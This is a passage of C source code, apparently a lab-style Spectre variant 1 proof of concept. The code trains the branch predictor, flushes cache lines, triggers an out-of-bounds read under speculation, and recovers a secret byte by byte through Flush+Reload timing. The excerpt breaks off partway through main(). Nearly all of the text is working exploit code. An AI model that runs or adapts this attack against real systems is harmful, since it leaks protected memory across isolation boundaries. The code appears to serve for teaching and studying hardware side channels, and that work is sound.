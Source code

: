 ```c
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

static int scores[256];
void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
    addr = &array[i * 4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    // printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
    if (time2 <= CACHE_HIT_THRESHOLD)
      scores[i]++; /* if cache hit, add 1 for this value */
  } 
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }

  // Train the CPU to take the true branch inside victim().
  for (i = 0; i < 10; i++) {
    restrictedAccess(i);  
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower); 
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {  }
  //
  // Ask victim() to return the secret in out-of-order execution.
  s = restrictedAccess(index_beyond);
  array[s*4096 + DELTA] += 88;
}

int main() {
  int i;
  uint8_t s;
  size_t index_beyond = (size_t)(secret - (char*)buffer);
  size_t secret_len = strlen(secret);
  char* spectre_secret = (char*) malloc(secret_len + 1);

  for (int k = 0; k < secret_len; k++) {    
    flushSideChannel();
    for(i=0;i<256; i++) scores[i]=0; 

    for (i = 0; i < 1000; i++) {
      printf("*****\n");  // This seemly "useless" line is necessary for the attack to succeed
      spectreAttack(index_beyond + k);
      usleep(10);
      reloadSideChannelImproved();
    }
```
